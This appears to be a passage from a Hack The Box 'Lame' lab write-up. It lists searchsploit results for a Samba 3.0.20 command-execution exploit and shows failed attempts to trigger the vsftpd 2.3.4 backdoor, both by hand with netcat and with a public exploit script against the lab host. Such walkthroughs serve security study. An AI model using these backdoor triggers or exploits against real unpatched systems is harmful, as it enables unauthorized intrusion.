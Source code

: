 ### Samba 3.0.20 exploit

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ searchsploit samba | grep 3.0.20
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                           | linux/remote/7701.txt
```

Here we have 2 possible exploits, but we don't want to overflow the SMB

We need a RCE, so we go for ```'Username' map script' Command Execution``` to exploit this version of SMB

## Gaining Access

### VSFTPD 2.3.4 manual exploit

This is a simple exploit that is being triggered with ```:)``` (Not smiley)

For more reference on this [exploit](https://www.exploit-db.com/exploits/49757)

Manual exploit [python script](https://github.com/ahervias77/vsftpd-2.3.4-exploit/blob/master/vsftpd_234_exploit.py)

Trying manually without scripts,

```c
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/Lame]
└─$ nc 10.10.10.3 21
220 (vsFTPd 2.3.4)
USER monish:)
331 Please specify the password.
PASS hackme
500 OOPS: priv_sock_get_result

┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ nc 10.10.10.3 6200                                             
(UNKNOWN) [10.10.10.3] 6200 (?) : Connection timed out
```

No luck

Trying with scripts,

```c
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/Lame]
└─$ python3 vsftpd.py                                              
Usage: ./vsftpd_234_exploit.py <IP address> <port> <command>
Example: ./vsftpd_234_exploit.py 192.168.1.10 21 whoami
                                                                      
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/Lame]
└─$ python3 vsftpd.py 10.10.10.3 21 whoami
[*] Attempting to trigger backdoor...
[+] Triggered backdoor
[*] Attempting to connect to backdoor...
[!] Failed to connect to backdoor on 10.10.10.3:6200

┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ nc 10.10.10.3 6200                                             
(UNKNOWN) [10.10.10.3] 6200 (?) : Connection timed out
```
